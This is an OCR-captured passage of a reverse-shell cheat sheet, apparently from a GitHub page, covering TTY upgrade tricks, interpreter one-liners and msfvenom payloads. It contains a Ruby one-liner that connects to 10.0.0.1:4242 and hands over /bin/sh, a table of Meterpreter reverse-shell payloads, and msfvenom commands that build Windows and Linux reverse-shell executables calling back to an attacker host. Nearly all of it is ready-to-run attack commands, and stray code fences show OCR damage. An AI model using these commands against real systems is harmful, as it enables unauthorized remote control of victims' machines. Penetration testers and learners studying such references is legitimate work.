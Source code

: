 ```bash
# Upgrading
python -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo # fix problems
rlwrap nc # better

# Upgrade shell
ctrl+z
stty raw -echo
fg

# Bash
stty raw -echo; fg

# Zsh
stty raw -echo; fg

# Set terminal
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <num>

# Using tmux
tmux
# run netcat in tmux
ctrl+b c
ps aux | grep nc
kill -s TSTP <PID>
```

#### Spawn TTY from Interpreter

```bash
```

python3 -c 'import pty; pty.spawn("/bin/sh")'\
perl -e 'exec "/bin/sh";'\
ruby -rsocket -e 'f=TCPSocket.open("10.0.0.1",4242).to\_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

````

---

## **11. MSFVenom / Meterpreter Reverse Shells**

| Platform | Payload | Format |
|----------|---------|--------|
| Windows  | windows/meterpreter/reverse_tcp | exe |
| Linux    | linux/x86/meterpreter/reverse_tcp | elf |
| OSX      | osx/x86/shell_reverse_tcp | macho |
| Web      | java/jsp_shell_reverse_tcp | war, raw |
| PHP      | php/meterpreter_reverse_tcp | raw |

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf > reverse.elf
````
